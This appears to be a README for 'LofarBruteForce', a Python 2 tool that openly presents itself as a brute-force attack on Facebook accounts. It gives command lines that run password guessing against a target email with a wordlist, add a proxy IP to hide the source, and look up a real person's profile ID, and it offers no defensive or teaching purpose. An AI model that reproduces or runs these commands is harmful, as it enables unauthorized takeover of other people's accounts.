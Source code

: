      SCRIPT: LofarBruteForce

     JOB: Brute Force Attack On Facebook Accounts

     SCRIPT ScreeenShot:
        Usage:
        Brute Force On Facebook Account Without proxy:
        Command: python2 LofarBruteForce.YS -t Lofaralzadjali@gmail.com -w wlist.txt
        
        Brute Force On Facebook Account With Proxy:
        python2 LofarBruteForce.YS -t Lofaralzadjali@gmail.com -w wlist.txt -p 144.217.101.245:3129
        
        
        Get Target Facebook Profile ID:
        python2 LofarBruteForce.YS -g https://www.facebook.com/zuck
        
